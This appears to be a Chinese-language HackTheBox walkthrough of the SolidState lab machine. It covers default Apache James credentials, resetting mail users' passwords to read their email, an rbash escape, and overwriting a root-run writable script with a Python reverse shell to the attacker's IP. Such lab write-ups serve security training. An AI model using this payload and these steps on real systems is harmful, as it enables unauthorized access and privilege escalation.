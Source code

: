 ```yaml
---
layout: post
title:  "HackTheBox >_ SolidState_51"
description: walkthrough
category: HackTheBox
---
```

# SolidState_51

![image-20200925154055654]({{ site.url }}/assets/SolidState_51.assets/image-20200925154055654.png)

![image-20200925154128438]({{ site.url }}/assets/SolidState_51.assets/image-20200925154128438.png)

有JAMES先搞JAMES。

![image-20200925154253482]({{ site.url }}/assets/SolidState_51.assets/image-20200925154253482.png)

默认凭证成功登陆`root:root`

命令记不清可以使用help查看命令

![image-20200925154521158]({{ site.url }}/assets/SolidState_51.assets/image-20200925154521158.png)

使用`listusers`命令列出所有邮件用户

![image-20200925154612637]({{ site.url }}/assets/SolidState_51.assets/image-20200925154612637.png)

使用`setpassword 用户名 密码`的命令格式，为这些用户逐个修改密码，并挨个登陆检查他们的邮件

以下以得到线索的用户mindy为例

修改mindy秘密为mindy

![image-20200925154637122]({{ site.url }}/assets/SolidState_51.assets/image-20200925154637122.png)

从110端口登陆

![image-20200925154841809]({{ site.url }}/assets/SolidState_51.assets/image-20200925154841809.png)

使用`LIST`命令可以列出邮件

![image-20200925154952235]({{ site.url }}/assets/SolidState_51.assets/image-20200925154952235.png)

使用`RETR 序号`可以阅读对应邮件

![image-20200925155104079]({{ site.url }}/assets/SolidState_51.assets/image-20200925155104079.png)

发现一组凭证

```bash
username: mindy
pass: P@55W0rd1!2@
```

SSH 登陆

![image-20200925155209500]({{ site.url }}/assets/SolidState_51.assets/image-20200925155209500.png)

得到user

![image-20200925160749093]({{ site.url }}/assets/SolidState_51.assets/image-20200925160749093.png)

但是我们现在的shell是rbash，许多功能受限，所以我们可以使用 `--noprofile`参数来重新连接ssh越过bash的设置

```bash
$ ssh mindy@10.10.10.51 'bash --noprofile'
```

![image-20200925161017829]({{ site.url }}/assets/SolidState_51.assets/image-20200925161017829.png)

![image-20200925161114001]({{ site.url }}/assets/SolidState_51.assets/image-20200925161114001.png)

在我们的枚举，我们遇到在/ opt一个有趣的全局可写文件。

记得要经常检查/opt和/usr/local目录对任何有可能利用的自定义软件包或脚本。

![image-20200925161209125]({{ site.url }}/assets/SolidState_51.assets/image-20200925161209125.png)

查看脚本内容

![image-20200925161231856]({{ site.url }}/assets/SolidState_51.assets/image-20200925161231856.png)

看脚本是执行清除tmp下面的文件

我们可以通过修改这个会被root执行，但是我们可以写入的脚本，来获得root shell

因为在目标shell种打开vim等编辑器，难以正常输入。有另外一个技巧，就是在本地编辑好之后，直接复制代码

黏贴到目标中

```python
#!/usr/bin/env python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.45",1338))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

现在本地写好脚本

然后在靶机上vi tmp.py

进入之后按ESC进入命令行模式 输入` :.,$d `删除所有行

再按 i  进入编辑模式    直接粘贴

再按 ESC 进入命令行模式 

输入 :wq 保存退出

![image-20200925161848256]({{ site.url }}/assets/SolidState_51.assets/image-20200925161848256.png)

在监听端口获得root shell

![image-20200925161927060]({{ site.url }}/assets/SolidState_51.assets/image-20200925161927060.png)